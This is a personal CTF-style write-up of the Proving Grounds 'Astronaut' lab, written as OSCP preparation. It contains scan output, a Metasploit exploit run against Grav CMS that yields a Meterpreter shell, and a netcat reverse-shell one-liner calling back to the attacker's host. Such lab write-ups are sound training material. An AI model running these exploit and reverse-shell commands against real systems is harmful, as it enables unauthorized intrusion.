 ```yaml
---
date: '2024-09-28'
before : '2024-09-23'
after : '2024-10-04'
title: 'OSCP Prep: Proving Grounds : Astronaut'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Astronaut machine from Proving Grounds'
thumbnail: '../contentImages/astronaut/1.png'
---
```


## 1. Recon

Starting with normal nmap scan
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p- -T4
[sudo] password for hosan:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:00 EDT
Nmap scan report for 192.168.216.12
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds

```
Nothing speical, only http service.
Analysing port 80 (http)
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p80 -sC -sV -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:01 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.216.12
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.7 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: 127.0.0.1

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.28 ms 192.168.45.1
2   26.00 ms 192.168.45.254
3   26.39 ms 192.168.251.1
4   26.54 ms 192.168.216.12

```
Okay. Nothing special either.

## 2. Enumeration / Initial Foothold.

Visited http://192.168.216.12/grav-admin:

![image](../contentImages/astronaut/1.png)

Hmm Grav. I've never heard of it.

- robots.txt
![image](../contentImages/astronaut/4.png)

Since no DNS services or hostname provided, subdomain/vhost enumeration is not possible.
While enumerating the subdirectories, quick search for CVE:

```

┌──(hosan㉿kali)-[~]
└─$ searchsploit grav
BitDefender GravityZone 5.1.5.386 - Multiple Vulnerabilities                                                                                                                                              | linux/webapps/34086.txt
Cobian Backup 11 Gravity 11.2.0.582 - 'Password' Denial of Service (PoC)                                                                                                                                  | windows/local/50790.py
Cobian Backup Gravity 11.2.0.582 - 'CobianBackup11' Unquoted Service Path                                                                                                                                 | windows/local/50791.txt
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                                                                        | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                                                                        | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                                                                   | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                                                                        | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                                                                        | php/webapps/49788.rb
```
So there is a metasploit module, always worth trying it.

I basically tuned some options for exploit to fit our target, but it dropped a shell.
```

msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.216.12
RHOSTS => 192.168.216.12
msf6 exploit(linux/http/gravcms_exec) > set LHOST 192.168.45.154
LHOST => 192.168.45.154
msf6 exploit(linux/http/gravcms_exec) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin
TARGETURI => /grav-admin
msf6 exploit(linux/http/gravcms_exec) > exploit

[*] Started reverse TCP handler on 192.168.45.154:80
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.216.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.154:80 -> 192.168.216.12:51198) at 2024-09-14 13:14:03 -0400

meterpreter > shell
Process 55058 created.
Channel 0 created.
whoami
www-data
```
And the subdirectory enumeration didn't give me anything meaningful:

```

┌──(hosan㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://192.168.216.12/grav-admin/FUZZ -e .txt
________________________________________________

images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 103ms]
cache                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 106ms]
tmp                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 31ms]
login.txt               [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 497ms]
login                   [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 495ms]
admin.txt               [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 554ms]
bin                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 68ms]
user                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 77ms]
admin                   [Status: 200, Size: 15508, Words: 4330, Lines: 139, Duration: 852ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 92ms]
backup                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 76ms]
home.txt                [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 288ms]
home                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 313ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 77ms]
.xml                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 258ms]
system                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 58ms]
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 341ms]
forgot_password.txt     [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 344ms]
.rss                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 311ms]
vendor                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 66ms]
user_profile            [Status: 200, Size: 13974, Words: 3067, Lines: 190, Duration: 387ms]
activate_user           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
activate_user.txt       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 312ms]

```

Since this shell is instable as hell, I quickly created a revshell with:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.241 443 >/tmp/f
```

## 3. PrivEsc

I found that sudo version is 1.8.31.
The first things I do during privesc is: sudo -l, kernel exploit, sudo exploit and suid, sgid binaries.

Next thing:

![image](../contentImages/astronaut/5.png)

And we got:

![image](../contentImages/astronaut/6.png)

So maybe:

![image](../contentImages/astronaut/7.png)

Done

New things learned: look into suid binaries and gtfobins more carefully, what does "it doesn't drop the privielged shell" means? Does it mean that the binary is completely useless?

- hint : think about SUID context.

---
## Source

- Proving Grounds
- Me!